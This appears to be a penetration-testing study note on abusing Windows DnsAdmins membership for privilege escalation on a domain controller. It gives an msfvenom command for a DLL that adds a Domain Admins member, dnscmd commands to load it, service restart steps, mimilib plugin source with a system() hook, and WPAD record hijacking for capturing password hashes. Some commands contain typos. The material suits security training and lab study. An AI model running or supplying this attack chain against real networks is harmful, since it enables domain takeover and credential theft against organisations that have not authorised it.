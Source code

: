 The Windows DNS service supports custom plugins and can call functions from them to 
resolve name queries that are not in the scope of any locally hosted DNS zones.

The DNS service runs as `NT AUTHORITY\SYSTEM`. Membership in this group could potentially be
leveraged to escalate privileges on the DC or in a situation where a separate server is acting
as the DNS server for the domain.

It's possible to use the built-in `dnscmd` utility to specify the path of the plugin DLL.
Here's an example of an attack when DNS is run on a DC:

https://adsecurity.org/?p=4064

- DNS management is performed over RPC
- `SeverLevelPluginDll` allows us to load a custom DLL with no verification of the path using `dnscmd`
- When a `DnsAdmins`  group member runs the command below, the `ServerLevelPluginDll` regkey is populated.

- When the DNS service is restarted, the DLL in this path will be loaded 
- (ie, a network share DC can access).

- An attacker can load a custom DLL to obtain a reverse shell or load tools like Mimikatz as a DLL.

## Leveraging DnsAdmins Access

##### Generating Malicious DLL
```bash
msfvenom - windows/x64/exec cmd=
	'net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

sudo python3 -m http.server 7777
```

- Download the DLL to the target
- Use the `dnscmd` utility to load a custom DLL with non-privileged user and...

```
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
( Access Denied )
```

- Only DnsAdmins are allowed to perform this, as expected. WHOOPS?
- We need to load this DLL as a DnsAdmin:

```
Get-ADGroupMember -Identity DnsAdmins
dnscmd.exe /config /serverlevelplugindll C:\Users\netadmn\Desktop\adduser.dll
```

Once the DLL is added we can either restart the DNS service if we have the rights or we would 
wait for a server restart.

Check our current user's permissions on the DNS Service.

##### Finding User's SID for the DNS Service
```
wmic useraccount where name="netadm" get sid
sc.exe sdshow DNS
sc stop dns
sc start dns
net group "Domain Admins" /dom
```

Here's an explaination of Security Descriptor Definition Language (SDDL) syntax:
https://academy.hackthebox.com/module/49/section/1016

## Cleaning Up For Our Customer

```
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
					/v ServerLevelPluginDll
sc.exe start dns
sc query dns
```

## Using Mimilib.dll

```cpp
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(
	PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, 
	PLUGIN_FREE_FUNCTION pDnsFreeFunction
)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(
	PSTR pszQueryName, 
	WORD wQueryType, 
	PSTR pszRecordOwnerName, 
	PDB_RECORD *ppDnsRecordListHead
)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

## Creating a WPAD Record

Membership in this group gives us the rights to disable global-query blocking security, 
which will block this attack by default.

Server 2008 first introduced the ability to add to a global query block list on a DNS server.
By default, Web Proxy Automatic Discovery Protocol (WAPD) and Intra-site Automatic Tunneling
Addressing Protocol (ISATAP) are on the global query block list. These protocols are quite
vulnerable to hijacking and any domain user can create a computer object or DNS record
containing those names.

After disabling the global query block list and creating a WPAD record, every machine running
WAPD with default settings will have it's traffic proxied through our attack machine.

We could use a tool like Responder or Inveigh to perform traffic spoofing and attempt to capture
password hashes and crack them offline, or perform an SMBRelay attack.

##### Disabling the Global Query Block List
```
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local 
	-ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

